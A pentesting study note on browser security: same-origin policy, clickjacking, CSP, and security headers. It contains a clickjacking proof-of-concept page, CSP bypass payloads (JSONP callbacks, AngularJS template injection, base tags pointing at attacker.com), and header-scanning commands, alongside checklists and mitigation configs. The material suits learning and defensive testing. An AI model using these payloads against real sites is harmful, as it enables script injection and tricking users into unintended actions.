


# Browser Security Model

> **The browser is the last line of defense between your users and attackers — understanding its security policies is essential for both attack and defense.**

---

## 🧠 What Is It? (Beginner Explanation)

Browsers enforce a complex set of security policies to protect users from malicious web content. These policies determine:

- What one website can do to another (Same-Origin Policy)
- What resources can be loaded over insecure connections (Mixed Content)
- Whether a site can be embedded in another (Clickjacking)
- What JavaScript is allowed to execute (CSP)

As a pentester, understanding these policies lets you:
1. Identify when they are misconfigured or absent
2. Find bypass techniques for CSP, SOP, and other controls
3. Write accurate reports explaining why each missing header matters
4. Test browser security features that developers should have enabled

---

## 🏗️ How It Works (Technical Deep Dive)

### Same-Origin Policy (SOP)

An **origin** is defined as: `scheme + host + port`

```
https://example.com:443/page

scheme = https
host   = example.com
port   = 443

Origin comparison:
https://example.com/a      vs  https://example.com/b       → SAME origin (path ignored)
https://example.com        vs  http://example.com           → DIFFERENT (scheme)
https://example.com        vs  https://www.example.com      → DIFFERENT (host)
https://example.com        vs  https://example.com:8080     → DIFFERENT (port)
https://example.com        vs  https://api.example.com      → DIFFERENT (subdomain = different host)
```

**What SOP blocks and allows:**

| Resource Type | Cross-Origin? | Notes |
|--------------|---------------|-------|
| `<script src>` | ✅ Allowed | Can load but can't read JS source |
| `` | ✅ Allowed | Can load but can't read pixel data via canvas |
| `<link rel=stylesheet>` | ✅ Allowed | Can apply CSS |
| `<iframe src>` | ✅ Allowed | Can embed but JS can't access iframe content |
| `<form action>` | ✅ Allowed | Can submit but can't read response |
| `fetch() / XHR` | ❌ Blocked | Response blocked (request IS sent!) |
| `localStorage` | ❌ Blocked | Cannot access other origin's storage |
| `document.cookie` | ❌ Blocked | Cannot read other origin's cookies |
| Canvas `drawImage()` | ✅ Then ❌ | Load allowed; `getImageData()` blocked (tainted) |
| Web Fonts | ✅ Allowed | With CORS headers required for some browsers |

**Relaxing SOP:**

```javascript
// document.domain — relax SOP between subdomains
// Both sub1.example.com and sub2.example.com can set:
document.domain = "example.com";
// Now they share an origin! (Deprecated in modern browsers)

// CORS — server explicitly allows cross-origin reads
// See AJAX notes for full CORS coverage

// postMessage — intentional cross-origin communication
// See DOM notes for full postMessage coverage
```

### Mixed Content

**Active mixed content** (scripts, iframes, XHR — can modify page):
- Browser **blocks** by default in all modern browsers
- A single HTTP script on HTTPS page = full page takeover risk

**Passive mixed content** (images, audio, video — cannot modify page):
- Browser **warns** but often still loads
- HTTP images on HTTPS page can leak HTTPS URL via Referer

```html
<!-- Active mixed content — BLOCKED -->
<script src="http://cdn.example.com/lib.js"></script>
<iframe src="http://example.com/widget"></iframe>

<!-- Passive mixed content — WARNING or allowed -->

<video src="http://media.example.com/video.mp4"></video>

<!-- HTTPS upgrade via meta tag -->
<meta http-equiv="Content-Security-Policy" content="upgrade-insecure-requests">
<!-- This automatically upgrades HTTP loads to HTTPS -->
```

---

## 📊 Diagram





---

## ⚙️ Technical Details

### Clickjacking

Clickjacking (UI Redressing) tricks a victim into clicking UI elements on an invisible overlaid page.

```
Attack flow:
1. Attacker creates a page with a transparent iframe of victim site
2. Attacker places a "Click here to win!" button underneath the iframe
3. Victim clicks what they think is the attacker's button
4. They actually clicked "Delete Account" / "Transfer Funds" on the invisible victim iframe
```

**Testing clickjacking:**
```html
<!-- Basic test: can this site be framed? -->
<!DOCTYPE html>
<html>
<head>
  <style>
    iframe {
      width: 100%;
      height: 100vh;
      border: none;
    }
  </style>
</head>
<body>
  <iframe src="https://TARGET.COM/account/delete"></iframe>
  <!-- If page loads in the iframe: VULNERABLE to clickjacking -->
  <!-- If page refuses to load: protected by X-Frame-Options or CSP -->
</body>
</html>
```

**Full Clickjacking PoC:**
```html
<!DOCTYPE html>
<html>
<head>
<style>
  #overlay {
    position: absolute;
    top: 0; left: 0;
    width: 100%;
    height: 100%;
    z-index: 10;
    opacity: 0;            /* Make iframe invisible */
    /* opacity: 0.5;      /* Set to 0.5 for testing visibility */
  }
  #decoy {
    position: absolute;
    top: 340px;            /* Position over victim button */
    left: 60px;
    width: 200px;
    height: 50px;
    background: green;
    color: white;
    font-size: 20px;
    cursor: pointer;
    z-index: 1;
    border: none;
  }
</style>
</head>
<body>
  <!-- Invisible victim site overlay -->
  <iframe id="overlay" src="https://victim.com/account/settings"></iframe>
  <!-- Decoy button victim sees and clicks -->
  <button id="decoy">Click to Claim Prize!</button>
</body>
</html>
```

**Protections:**

```http
# X-Frame-Options (older, widely supported)
X-Frame-Options: DENY                    # No framing at all
X-Frame-Options: SAMEORIGIN             # Only same origin can frame
X-Frame-Options: ALLOW-FROM https://trusted.com  # Specific origin (deprecated in modern browsers)

# CSP frame-ancestors (modern, more flexible)
Content-Security-Policy: frame-ancestors 'none'              # No framing
Content-Security-Policy: frame-ancestors 'self'              # Same origin only
Content-Security-Policy: frame-ancestors https://trusted.com # Specific origin
```

### MIME Type Sniffing

Browsers try to "sniff" the content type of responses if the `Content-Type` header is missing or wrong. This can lead to attacks:

```
Attack scenario:
1. Site allows file upload
2. Attacker uploads "image.jpg" with HTML/JS content
3. Server stores it and serves with Content-Type: image/jpeg
4. Without nosniff: browser sniffs content, sees HTML, renders it as HTML
5. JavaScript executes → XSS!
```

```http
# Protection header
X-Content-Type-Options: nosniff
# Forces browser to trust declared Content-Type
# No sniffing = no content-type confusion attacks
```

### Referrer Policy

The `Referer` header leaks the URL of the page making a request. URLs can contain:
- Session tokens: `https://app.com/reset?token=abc123`
- Sensitive paths: `https://app.com/admin/user/delete/42`
- Search queries: `https://app.com/search?q=medication+names`

**All 8 Referrer Policy values:**

| Policy | Same-Origin | Cross-Origin |
|--------|-------------|--------------|
| `no-referrer` | None | None |
| `no-referrer-when-downgrade` | Full URL | Full URL (HTTPS→HTTP: none) |
| `origin` | Origin only | Origin only |
| `origin-when-cross-origin` | Full URL | Origin only |
| `same-origin` | Full URL | None |
| `strict-origin` | Origin only | Origin only (HTTPS→HTTP: none) |
| `strict-origin-when-cross-origin` | Full URL | Origin only (HTTPS→HTTP: none) |
| `unsafe-url` | Full URL | Full URL (always leaks) |

```html
<!-- Set in HTML -->
<meta name="referrer" content="strict-origin-when-cross-origin">

<!-- Set in link -->
<a href="https://external.com" referrerpolicy="no-referrer">Click</a>

<!-- Set in HTTP header -->
Referrer-Policy: strict-origin-when-cross-origin
```

### Content Security Policy (CSP)

CSP is a browser security policy that restricts what resources a page can load and execute. It is declared via an HTTP header or `<meta>` tag.

**Key directives:**

| Directive | Controls |
|-----------|----------|
| `default-src` | Fallback for all directives not explicitly set |
| `script-src` | JavaScript sources |
| `style-src` | CSS sources |
| `img-src` | Image sources |
| `connect-src` | fetch, XHR, WebSocket, EventSource |
| `font-src` | Web fonts |
| `frame-src` | iframe sources |
| `frame-ancestors` | Who can frame this page |
| `form-action` | Where forms can submit |
| `base-uri` | Restricts `<base>` tag |
| `object-src` | Plugin objects (Flash etc.) |
| `report-uri` | Where to send violation reports |
| `upgrade-insecure-requests` | Upgrade HTTP to HTTPS |

**CSP examples:**

```http
# Strict nonce-based CSP
Content-Security-Policy: 
  default-src 'none';
  script-src 'nonce-abc123rnd' 'strict-dynamic';
  style-src 'nonce-abc123rnd';
  img-src 'self' data:;
  connect-src 'self' https://api.example.com;
  font-src 'self';
  base-uri 'none';
  form-action 'self';
  frame-ancestors 'none';
  object-src 'none';
  report-uri /csp-report

# Hash-based CSP (for static inline scripts)
Content-Security-Policy: script-src 'sha256-B2yPHKaXnvFWtRChIbabYmUBFZdVfKKXHbWtWidDVF8='
```

```html
<!-- Nonce-based: server generates fresh nonce each request -->
<script nonce="abc123rnd">
  // Only scripts with matching nonce are allowed
  console.log("Trusted script");
</script>

<!-- Attacker's injected script has no nonce — blocked! -->
<script>alert(1)</script>  <!-- CSP violation: blocked -->
```

### HSTS, SRI, COEP, COOP, CORP

```http
# HSTS — force HTTPS for domain
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
# max-age: remember for 1 year
# includeSubDomains: all subdomains must use HTTPS
# preload: browser pre-loads HSTS before first visit

# SRI — ensure CDN resources haven't been tampered
# <script src="https://cdn.example.com/lib.js" 
#   integrity="sha256-abc123..." 
#   crossorigin="anonymous"></script>
# Browser verifies hash before executing

# COEP — Cross-Origin Embedder Policy
Cross-Origin-Embedder-Policy: require-corp
# All resources must have CORP or CORS headers

# COOP — Cross-Origin Opener Policy
Cross-Origin-Opener-Policy: same-origin
# Isolates window from cross-origin popups/openers
# Enables SharedArrayBuffer (Spectre mitigations)

# CORP — Cross-Origin Resource Policy
Cross-Origin-Resource-Policy: same-origin
# Or: same-site, cross-origin
# Prevents other origins from loading this resource
# (Protects against Spectre-style attacks)
```

### Permissions Policy

```http
# Permissions-Policy (formerly Feature-Policy)
Permissions-Policy: camera=(), microphone=(), geolocation=()
# () = deny to all
# (self) = allow only same origin
# ("https://trusted.com") = allow specific origin

# Example: allow geolocation only for same origin, block camera/microphone
Permissions-Policy: geolocation=(self), camera=(), microphone=()
```

---

## 🔴 Attack Surface & Exploitation

### CSP Bypass Techniques

**1. JSONP endpoint bypass**
```javascript
// If script-src allows a domain that hosts a JSONP endpoint:
Content-Security-Policy: script-src 'self' https://api.example.com
// If api.example.com has: /jsonp?callback=<user_input>
// Payload: https://api.example.com/jsonp?callback=alert(1)//
// Becomes: alert(1)//({"data": "..."})
// JSONP endpoint = CSP bypass because it's whitelisted!
```

**2. Open redirect on whitelisted domain**
```javascript
// If script-src includes a domain with open redirect:
Content-Security-Policy: script-src https://accounts.google.com
// And accounts.google.com has: /o/oauth2/auth?redirect_uri=//evil.com
// Attacker script: <script src="https://accounts.google.com/redirect?url=//attacker.com/xss.js">
```

**3. unsafe-inline**
```javascript
// If CSP contains 'unsafe-inline' — inline scripts execute!
Content-Security-Policy: script-src 'self' 'unsafe-inline'
// Any <script>...</script> or onclick= executes
```

**4. unsafe-eval**
```javascript
// If CSP contains 'unsafe-eval' — eval() works!
Content-Security-Policy: script-src 'self' 'unsafe-eval'
// eval(), setTimeout(string), new Function() all work
```

**5. base-uri missing → base tag injection**
```html
<!-- If CSP has no base-uri directive: -->
<base href="https://attacker.com/">
<!-- Now all relative script src loads from attacker.com! -->
<script src="/app.js"></script>  <!-- Actually loads https://attacker.com/app.js -->
```

**6. data: URI bypass**
```javascript
// If img-src or object-src allows data:
Content-Security-Policy: script-src 'self'; object-src data:
<object data="data:text/html,<script>alert(1)</script>"></object>
```

**7. Angular-based CSP bypass (ng-csp)**
```html
<!-- If angular is loaded from whitelisted CDN, AngularJS templates bypass CSP -->
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.x/angular.min.js"></script>
<div ng-app>{{ constructor.constructor('alert(1)')() }}</div>
```

### Clickjacking Testing Methodology

```bash
# Check X-Frame-Options header
curl -si "https://target.com" | grep -i "x-frame-options\|frame-ancestors"

# Test if site loads in iframe (automated)
python3 - << 'EOF'
import requests
r = requests.get("https://target.com")
xfo = r.headers.get("X-Frame-Options", "MISSING")
csp = r.headers.get("Content-Security-Policy", "MISSING")
print(f"X-Frame-Options: {xfo}")
fa = "MISSING"
if csp != "MISSING":
    for part in csp.split(";"):
        if "frame-ancestors" in part:
            fa = part.strip()
print(f"CSP frame-ancestors: {fa}")
if xfo == "MISSING" and fa == "MISSING":
    print("⚠️  VULNERABLE TO CLICKJACKING")
EOF
```

### Security Headers Check

```bash
# Check all security headers at once
curl -si "https://target.com" | grep -iE \
  "x-frame-options|x-content-type-options|x-xss-protection|strict-transport-security|\
content-security-policy|referrer-policy|permissions-policy|feature-policy|\
cross-origin-embedder-policy|cross-origin-opener-policy|cross-origin-resource-policy"

# Detailed check with explanations
python3 -c "
import urllib.request
url = 'https://target.com'
r = urllib.request.urlopen(url)
headers = dict(r.headers)
security_headers = {
    'Content-Security-Policy': 'CSP - restrict resource loading',
    'X-Frame-Options': 'Clickjacking protection',
    'X-Content-Type-Options': 'MIME sniffing protection',
    'Strict-Transport-Security': 'HSTS - force HTTPS',
    'Referrer-Policy': 'Referrer data control',
    'Permissions-Policy': 'Browser feature control',
    'Cross-Origin-Opener-Policy': 'Window isolation',
    'Cross-Origin-Embedder-Policy': 'Embedding control',
    'Cross-Origin-Resource-Policy': 'Resource access control'
}
for header, desc in security_headers.items():
    value = headers.get(header, '❌ MISSING')
    status = '✅' if value != '❌ MISSING' else '❌'
    print(f'{status} {header}: {value}')
    if value == '❌ MISSING':
        print(f'   ({desc})')
"
```

### Certificate Errors for Pentesters

```
Certificate errors you'll encounter:

ERR_CERT_COMMON_NAME_INVALID
  - Certificate CN doesn't match domain
  - Could indicate: subdomain takeover, proxy misconfiguration

ERR_CERT_AUTHORITY_INVALID
  - Untrusted CA (self-signed or corporate CA)
  - For pentesting: install Burp CA cert to avoid this
  - Install: Settings → Certificates → Import Burp CA

ERR_CERT_DATE_INVALID
  - Expired certificate
  - Finding: expired certs are a finding! Shows poor hygiene

HSTS error (can't bypass in browser)
  - Site has HSTS enabled
  - Browser refuses HTTP or cert errors entirely
  - Use curl --insecure or --resolve to bypass for testing

Installing Burp CA (required for HTTPS interception):
  1. Browse to http://burpsuite while proxied → download CA cert
  2. Chrome: Settings → Privacy → Manage Certificates → Import
  3. Firefox: Settings → Certificates → View Certificates → Authorities → Import
  4. System: Add to OS trust store for all tools
```

### Browser Extensions Attack Surface

```javascript
// Extension manifest (manifest.json) permissions to look for:
{
  "permissions": [
    "tabs",           // Access to all tabs
    "webRequest",     // Intercept/modify all requests
    "cookies",        // Access all cookies
    "storage",        // Extension storage
    "nativeMessaging",// Communicate with native apps
    "<all_urls>",     // Inject scripts into ALL pages
    "history",        // Read browser history
    "bookmarks",      // Read bookmarks
    "downloads"       // Manage downloads
  ],
  "content_scripts": [{
    "matches": ["<all_urls>"],  // Runs on every page
    "js": ["content.js"]        // This script runs in page context!
  }]
}

// Content scripts run in page context → can read page DOM
// But are isolated from page's JS (separate world)
// Communication via message passing:

// Content script → Background page
chrome.runtime.sendMessage({ type: "getData", cookies: document.cookie });

// Background page listens
chrome.runtime.onMessage.addListener((msg, sender, reply) => {
  if (msg.type === "getData") {
    // Has access to cookies, tabs, requests...
    // If this logic is vulnerable to injection: extension XSS
    reply({ data: msg.cookies }); // Echoes back cookies!
  }
});
```

---

## 💥 Payloads & Examples

### Security Headers — Complete Table

| Header | Secure Value | Purpose | Missing = Risk |
|--------|-------------|---------|----------------|
| `Content-Security-Policy` | `default-src 'self'; ...` | Block XSS, data injection | XSS easier to exploit |
| `X-Frame-Options` | `DENY` or `SAMEORIGIN` | Block clickjacking | Clickjacking possible |
| `X-Content-Type-Options` | `nosniff` | Block MIME sniffing | Content-type attacks |
| `Strict-Transport-Security` | `max-age=31536000; includeSubDomains` | Force HTTPS | SSL stripping, MITM |
| `Referrer-Policy` | `strict-origin-when-cross-origin` | Control Referer leakage | URL/token leakage |
| `Permissions-Policy` | `camera=(), microphone=(), geolocation=()` | Restrict browser features | Feature abuse |
| `Cross-Origin-Opener-Policy` | `same-origin` | Prevent window sharing | Spectre, XS-Leaks |
| `Cross-Origin-Embedder-Policy` | `require-corp` | Isolate process | Spectre attacks |
| `Cross-Origin-Resource-Policy` | `same-origin` | Block resource embedding | XS-Leaks |
| `Cache-Control` | `no-store` (sensitive pages) | Prevent caching secrets | Cache poisoning, info leak |

### CSP Bypass Payloads

```javascript
// Bypass 1: JSONP on whitelisted domain
// CSP: script-src https://accounts.google.com
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)//"></script>

// Bypass 2: Angular template injection when CDN whitelisted
// CSP: script-src https://ajax.googleapis.com
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.min.js"></script>
<div ng-app>{{constructor.constructor('alert(document.cookie)')()}}</div>

// Bypass 3: base tag injection when base-uri not set
<base href="//attacker.com/">
<script src="/trusted-path/app.js"></script>
// loads: //attacker.com/trusted-path/app.js

// Bypass 4: meta refresh (bypasses frame-ancestors sometimes)
<meta http-equiv="refresh" content="0;url=javascript:alert(1)">

// Bypass 5: SVG with script when script-src is weak
<svg><script>alert(1)</script></svg>

// Bypass 6: data: URI with object (if object-src allows data:)
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

### SRI (Subresource Integrity) Example

```html
<!-- Without SRI: attacker who compromises CDN can inject malicious code -->
<script src="https://cdn.jsdelivr.net/npm/jquery@3.6.0/dist/jquery.min.js"></script>

<!-- With SRI: hash mismatch = browser refuses to load -->
<script 
  src="https://cdn.jsdelivr.net/npm/jquery@3.6.0/dist/jquery.min.js"
  integrity="sha256-/xUj+3OJU5yExlq6GSYGSHk7tPXikynS7ogEvDej/m4="
  crossorigin="anonymous">
</script>

<!-- Generate SRI hash -->
<!-- openssl dgst -sha256 -binary jquery.min.js | openssl base64 -A | sed 's/^/sha256-/' -->
```

### Chrome DevTools Security Panel

```
Open DevTools → Security tab

Shows:
  - Overall page security state (Secure / Not Secure / Mixed Content)
  - Certificate details (issuer, validity, SANs)
  - Connection details (TLS version, cipher suite)
  - Origins panel — click each origin to see its cert/connection

What to check as pentester:
  1. TLS version — TLS 1.0/1.1 deprecated (finding!)
  2. Weak cipher suites — RC4, 3DES (finding!)
  3. Certificate validity — expired? self-signed? wrong CN?
  4. Mixed content warnings — HTTP resources on HTTPS page
  5. Certificate Transparency log inclusion

Command to check TLS via CLI:
  nmap --script ssl-enum-ciphers -p 443 target.com
  testssl.sh target.com
  sslyze --regular target.com
```

---

## 🛠️ Tools & Commands

### Security Header Analysis

```bash
# Quick security header check with curl
curl -si "https://target.com" | grep -iE \
  "(strict-transport|content-security|x-frame|x-content-type|referrer-policy|permissions)"

# securityheaders.com API equivalent
curl -s "https://securityheaders.com/?q=target.com&followRedirects=on" | \
  grep -oE "grade-[A-F+]"

# Full header dump and analysis
curl -siL "https://target.com" | \
  awk '/HTTP\//{print "\n--- Response ---"} /^[A-Za-z]/{print}'

# Check for HSTS preloading
curl -si "https://target.com" | grep -i "strict-transport" | \
  grep -c "preload" && echo "HSTS Preloaded" || echo "Not preloaded"

# Test for missing X-Frame-Options (clickjacking)
curl -si "https://target.com" | grep -ic "x-frame-options" || \
  echo "VULNERABLE: X-Frame-Options missing"

# Nikto scan for header issues
nikto -host https://target.com -Tuning b

# Test HSTS strength
curl -si "https://target.com" | grep -i "strict-transport-security" | \
  grep -oE "max-age=[0-9]+"
```

### CSP Analysis

```bash
# Extract and analyze CSP
curl -si "https://target.com" | grep -i "content-security-policy"

# Check for dangerous CSP values
CSP=$(curl -si "https://target.com" | grep -i "content-security-policy")
echo "$CSP" | grep -q "unsafe-inline" && echo "⚠️  unsafe-inline found"
echo "$CSP" | grep -q "unsafe-eval" && echo "⚠️  unsafe-eval found"
echo "$CSP" | grep -q "\*" && echo "⚠️  Wildcard source found"
echo "$CSP" | grep -q "data:" && echo "⚠️  data: URI allowed"

# Use Google CSP Evaluator API
curl -s "https://csp-evaluator.withgoogle.com/getCSPEvaluation" \
  -H "Content-Type: application/json" \
  -d "{\"csp\":\"$(curl -si https://target.com | grep -i content-security-policy | cut -d: -f2-)\"}"

# Find JSONP endpoints on whitelisted domains (for CSP bypass)
# After identifying whitelisted domains in CSP:
ffuf -u https://WHITELISTED_DOMAIN/FUZZ?callback=test \
  -w /path/to/endpoints.txt \
  -mc 200 \
  -fr "^test\("  # Filter OUT valid JSONP (responses that start with callback)
```

---

## 🔍 Detection

### Browser Security Model Pentesting Checklist

```
SAME-ORIGIN POLICY
[ ] Test if CORS allows arbitrary origins (see AJAX notes)
[ ] Check if document.domain is being set (SOP relaxation)
[ ] Test postMessage handlers for missing origin check
[ ] Look for cross-origin data leaks via error messages

CLICKJACKING
[ ] Check X-Frame-Options header presence and value
[ ] Check CSP frame-ancestors directive
[ ] Create PoC iframe to verify visual framing is blocked
[ ] Test all sensitive action pages (delete, transfer, settings)

MIXED CONTENT
[ ] Browse app over HTTPS, check Security tab for warnings
[ ] Look for HTTP-loaded scripts on HTTPS pages
[ ] Check if app works over HTTP at all

CSP
[ ] Check if CSP header is present
[ ] Evaluate CSP strength (Google CSP Evaluator)
[ ] Look for: unsafe-inline, unsafe-eval, wildcard domains
[ ] Check for missing base-uri directive
[ ] Check for missing object-src 'none'
[ ] Test JSONP bypass on whitelisted domains
[ ] Test Angular bypass if Angular CDN is whitelisted

SECURITY HEADERS AUDIT
[ ] Content-Security-Policy — present and strict?
[ ] X-Frame-Options — present?
[ ] X-Content-Type-Options: nosniff — present?
[ ] Strict-Transport-Security — present? max-age sufficient?
[ ] Referrer-Policy — present and appropriate?
[ ] Permissions-Policy — restricts unneeded features?

COOKIES
[ ] HttpOnly on session cookies?
[ ] Secure on session cookies?
[ ] SameSite on session cookies?
[ ] Domain scope appropriate?

TLS/CERTIFICATE
[ ] TLS version 1.2+ only?
[ ] No weak cipher suites?
[ ] Certificate not expired?
[ ] HSTS enabled?
[ ] Certificate Transparency?

EXTENSION ATTACK SURFACE (if testing browser extension)
[ ] Review manifest.json permissions
[ ] Check content script for DOM injection vulnerabilities
[ ] Check message passing for injection attacks
[ ] Look for exposed chrome.tabs/chrome.cookies access
```

---

## 🛡️ Mitigation

```python
# Python/Flask: Set all security headers
@app.after_request
def set_security_headers(response):
    # CSP — strict nonce-based
    nonce = generate_random_nonce()
    response.headers['Content-Security-Policy'] = (
        f"default-src 'none'; "
        f"script-src 'self' 'nonce-{nonce}' 'strict-dynamic'; "
        f"style-src 'self' 'nonce-{nonce}'; "
        f"img-src 'self' data: https:; "
        f"connect-src 'self' https://api.example.com; "
        f"font-src 'self'; "
        f"base-uri 'none'; "
        f"form-action 'self'; "
        f"frame-ancestors 'none'; "
        f"object-src 'none'; "
        f"upgrade-insecure-requests"
    )
    # Anti-clickjacking
    response.headers['X-Frame-Options'] = 'DENY'
    # MIME sniffing protection
    response.headers['X-Content-Type-Options'] = 'nosniff'
    # HTTPS enforcement
    response.headers['Strict-Transport-Security'] = 'max-age=31536000; includeSubDomains; preload'
    # Referrer control
    response.headers['Referrer-Policy'] = 'strict-origin-when-cross-origin'
    # Feature restriction
    response.headers['Permissions-Policy'] = 'camera=(), microphone=(), geolocation=()'
    # Cross-origin isolation
    response.headers['Cross-Origin-Opener-Policy'] = 'same-origin'
    response.headers['Cross-Origin-Embedder-Policy'] = 'require-corp'
    response.headers['Cross-Origin-Resource-Policy'] = 'same-origin'
    return response
```

```nginx
# Nginx: Security headers configuration
add_header Content-Security-Policy "default-src 'none'; script-src 'self'; style-src 'self'; img-src 'self'; connect-src 'self'; font-src 'self'; base-uri 'none'; form-action 'self'; frame-ancestors 'none'; object-src 'none'" always;
add_header X-Frame-Options "DENY" always;
add_header X-Content-Type-Options "nosniff" always;
add_header Strict-Transport-Security "max-age=31536000; includeSubDomains; preload" always;
add_header Referrer-Policy "strict-origin-when-cross-origin" always;
add_header Permissions-Policy "camera=(), microphone=(), geolocation=()" always;
add_header Cross-Origin-Opener-Policy "same-origin" always;
add_header Cross-Origin-Embedder-Policy "require-corp" always;
add_header Cross-Origin-Resource-Policy "same-origin" always;
```

---

## 📚 References

- [MDN - Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
- [OWASP - Clickjacking](https://owasp.org/www-community/attacks/Clickjacking)
- [PortSwigger - Clickjacking](https://portswigger.net/web-security/clickjacking)
- [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)
- [CSP Bypass - HackTricks](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)
- [SecurityHeaders.com](https://securityheaders.com/)
- [MDN - CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [OWASP - Content Security Policy Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)
- [web.dev - Security Headers](https://web.dev/security-headers/)
- [testssl.sh](https://testssl.sh/)
